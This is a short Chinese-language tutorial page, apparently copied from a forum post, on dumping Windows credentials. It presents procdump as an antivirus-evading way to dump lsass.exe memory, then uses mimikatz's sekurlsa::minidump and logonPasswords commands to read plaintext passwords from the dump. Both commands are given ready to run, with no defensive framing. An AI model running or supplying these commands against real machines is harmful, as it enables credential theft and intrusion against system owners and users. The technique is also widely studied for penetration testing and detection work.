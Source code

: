 # 4.1.2 procdump+mimikatz

> 原文：[https://www.zhihuifly.com/t/topic/3417](https://www.zhihuifly.com/t/topic/3417)

### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
```

![image](img/516bf27b9df82b1f673aeddaf860d3fb.png)

#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" 
```

![image](img/f018c47bbe86f48f90935618b71f0695.png)